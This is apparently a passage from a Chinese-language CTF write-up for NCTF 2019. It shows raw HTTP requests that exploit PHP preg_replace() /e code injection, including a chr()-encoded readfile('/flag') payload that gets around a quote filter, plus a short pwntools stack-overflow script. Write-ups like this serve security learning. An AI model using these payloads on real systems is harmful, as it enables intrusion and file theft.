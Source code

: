 想到preg_replace() /e参数

试一下可以执行phpinfo()

```
POST /index.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://nctf2019.x1ct34m.com:40006
Connection: close
Referer: http://nctf2019.x1ct34m.com:40006/index.php
Cookie: PHPSESSID=6vtpnnca8f9mjjde768sqiub4g
Upgrade-Insecure-Requests: 1

sub=text&pat=e&rep=phpinfo();
```

但是直接用readfile('/flag')读文件，发现单引号被拦截

于是用chr()拼接表示字符串。。。。。

```
POST /index.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://nctf2019.x1ct34m.com:40006
Connection: close
Referer: http://nctf2019.x1ct34m.com:40006/index.php
Cookie: PHPSESSID=6vtpnnca8f9mjjde768sqiub4g
Upgrade-Insecure-Requests: 1

sub=text&pat=e&rep=readfile(chr(47).chr(102).chr(108).chr(97).chr(103));
```

## Pwn
### hello_pwn
连接nc后发现让我用pwntools
构造exp
![](https://md.byr.moe/uploads/upload_786ab5d56bc516d0dc8f353dad62a19c.png)
获得flag

### pwn_me_1
基础栈溢出
```
from pwn import *
a=remote("139.129.76.65","50004")
ad=0x400861
payload='yes\0'+'a'*12+p64(0x66666666)
a.sendline(payload)
a.interactive()
```
